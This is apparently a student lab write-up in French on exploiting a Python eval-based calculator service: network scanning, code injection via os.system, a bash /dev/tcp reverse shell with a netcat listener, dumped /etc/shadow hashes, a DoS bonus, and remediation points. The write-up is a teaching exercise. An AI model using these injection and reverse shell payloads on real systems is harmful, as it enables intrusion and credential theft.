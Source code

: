 # TP5 : Exploit, pwn, fix

## 1. Reconnaissance

🌞 **Déterminer**

- 10.33.70.40

- PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

- 

> Disons que si le code est compilé, t'auras pas la possibilité de le lire. Je vous laisse le code pour l'aspect pédagogique de l'exercice. Il existe au moins deux façons très directes qui permettraient de trouver ces infos. Trouvez-en une au moins.

➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

- trouvez une ou plusieurs machines qui héberge une app sur ce port
-
 ```
 $ sudo nmap -n 110.33.64.0/20 -p13337 --open : 
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:32 CET
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.33.66.165
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.037s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0066s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (843 hosts up) scanned in 295.53 seconds
```



🦈 **tp5_nmap.pcapng**

 [lien capture wireshark](/tp5/img/tp5_nmap.pcapng)

🌞 **Connectez-vous au serveur**
``` ~/Téléchargements  sudo python client.py
Veuillez saisir une opération arithmétique : 2+2

2023-11-30 11:18:09 INFO Connexion réussie à 10.33.70.40:13337
2023-11-30 11:18:15 INFO Message envoyé au serveur 10.33.70.40 : 2+2
2023-11-30 11:18:16 INFO Réponse reçue du serveur 10.33.70.40 : b'4'
2023-11-30 11:25:41 INFO Connexion réussie à 10.33.70.40:13337
2023-11-30 11:25:45 INFO Message envoyé au serveur 10.33.70.40 : 2+2
2023-11-30 11:25:45 INFO Réponse reçue du serveur 10.33.70.40 : b'4'
```

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

Ca doit lever un giga red flag dans votre esprit de hacker ça. Tu saisis ce que tu veux, et le serveur le lit et l'interprète.

🌞 **Injecter du code serveur**
```
sudo python client.py : 
__import__('os').system('ping -c 1 10.33.76.181') 

2023-12-01 11:16:46 INFO Message envoyé au serveur 10.33.70.40 : __import__('os').system('ping -c 1 10.33.76.181') 
2023-12-01 11:16:46 INFO Réponse reçue du serveur 10.33.70.40 : b'0'
 /v/l/bs_client  
``` 

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**
```
__import__('os').system('bash -i >& /dev/tcp/10.33.76.181/31296 0>&1')
```
```
└─$ nc -lvnp 3196
listening on [any] 3196 ...
connect to [10.33.70.40] from (UNKNOWN) [10.33.76.181] 31296
[root@local]#
```


🌞 **Pwn**
```
cat /etc/shadow
root:$6$Ac2Zned208vSDVSn$wKuS7q/pIYPo90yin8zl6Ocxd/liQd4aCTnzQEwsTQ2feosGAovhMqxFR.oladVr3G8UbXf2/u.OzeDfWM4aq.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19621::::::
dbus:!!:19621::::::
tss:!!:19621::::::
sssd:!!:19621::::::
sshd:!!:19621::::::
systemd-oom:!*:19621::::::
it4:$6$bV62paDqH/ZQSVFb$jiBgcgpkuzmmoZSvvLPwpd4gjwvnKQEWTE119tMNTnICtMcJ6dyPcDCVaTur8j5UQFuxAAM6eTimGdr97Nagh1::0:99999:7:::
```
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:993:993:systemd Userspace OOM Killer:/:/usr/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
```

## 4. Bonus : DOS

Le DOS dans l'esprit, souvent c'est :

- d'abord t'es un moldu et tu trouves ça incroyable
- tu deviens un tech, tu te rends compte que c'est pas forcément si compliqué, ptet tu essaies
- tu deviens meilleur et tu te dis que c'est super lame, c'est nul techniquement, ça mène à rien, exploit c'est mieux
- tu deviens conscient, et ptet que parfois, des situations t'amèneront à trouver finalement le principe pas si inutile (politique ? militantisme ?)

⭐ **BONUS : DOS l'application**

- faut que le service soit indispo, d'une façon ou d'une autre
- fais le crash, fais le sleep, fais le s'arrêter, peu importe

## II. Remédiation

🌞 **Proposer une remédiation dév**

- le code serveur ne doit pas exécuter n'importe quoi
- il faut préserver la fonctionnalité de l'outil

🌞 **Proposer une remédiation système**

- l'environnement dans lequel tourne le service est foireux (le user utilisé ?)
- la machine devrait bloquer les connexions sortantes (pas de reverse shell possible)

```
ss -tupnl
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 2      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4))
```
![serveur] (remediation/serveur.py)

